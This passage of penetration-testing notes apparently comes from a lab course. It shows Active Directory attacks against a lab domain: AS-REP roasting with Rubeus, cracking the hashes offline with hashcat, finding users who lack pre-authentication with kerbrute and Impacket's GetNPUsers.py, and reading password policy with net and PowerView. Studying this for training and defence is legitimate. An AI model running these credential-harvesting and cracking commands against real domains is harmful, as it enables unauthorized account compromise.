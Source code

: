 With this information in hand, the Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking. This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth.

```powershell
# Retrieving AS-REP in Proper Format using Rubeus
.\Rubeus.exe asreproast /user:$user /nowrap /format:hashcat
# Example:
# .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

Cracking the Hash Offline with Hashcat:

```bash
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

#### DONT_REQ_PREAUTH Value using kerbrute

```shell-session
# From linux
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

# From Windows
 .\kerbrute_Windows.exe userenum -d inlanefreight.local --dc 172.16.5.5 .\users.txt
```

However, this will be as accurate as the user list.


####  Get-NPUsers.py from the Impacket toolkit

```bash
# Retuns all users that with DONT_REQ_PREAUTH amd UF_DONT_REQ_PREAUTH
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile jsmith.txt | grep -v SessionError
```

## 3. Password policy 

Some tools work for this end: `net.exe`, PowerView, CrackMapExec ported to Windows, SharpMapExec, SharpView, etc.

### net.exe

```cmd-session
net accounts
```

### PowerView

Blocked by Microsoft Defender. 
PowerView gave us the same output as our net accounts command, just in a different format but also revealed that password complexity is enabled (PasswordComplexity=1).

```powershell-session
import-module .\PowerView.ps1

Get-DomainPolicy
```
